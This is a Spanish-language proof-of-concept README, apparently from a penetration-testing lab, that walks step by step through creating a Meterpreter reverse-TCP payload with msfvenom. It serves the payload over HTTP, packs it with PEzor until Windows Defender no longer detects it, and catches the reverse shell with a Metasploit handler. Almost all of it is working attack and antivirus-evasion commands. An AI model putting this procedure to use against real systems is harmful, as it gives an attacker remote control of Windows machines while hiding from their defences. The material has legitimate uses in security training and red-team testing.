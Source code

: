 ## PoC Bypass AV/EDR

1º **Crear payload con MSFVENOM:**

        - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=3333 -e x86/shikata_ga_nai>

2º **Lo pasamos al windows con un servidor http.

        - python3 -m http.server 8080
        - Nos conecatamos a nuestra ip y descargamos el .exe
        
3º **Lo pasamos por el DefenderCheckMaster (https://github.com/matterpreter/DefenderCheck)

        - cd .\Desktop\DefenderCheck-master\DefenderCheck\DefenderCheck\bin\Debug\
        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe
        -  Se detectará.

4º **Pasamos el .exe por PEzor (https://github.com/phra/PEzor)

        - PEzor -sgn -unhook -syscalls PoC.exe
        - Lo volvemos a enviar al Windows.

5º **Lo volvemos a pasar por el DefenderCheckMaster

        - .\DefenderCheck.exe C:\Users\OSCP\Downloads\PoC.exe.packed.exe
        - NO SE DETECTA

6º **Tendremos a la escucha un listener de mestasploit en nuestra Kali.

        - msfconsole -q
        - use exploit/multi/handler
        - set lhost 192.168.xxx.xxx
        - set lport 3333
        - run

7º **Ejecutamos el .exe

        - Conseguiremos una shell de meterpreter en nuestra kali.

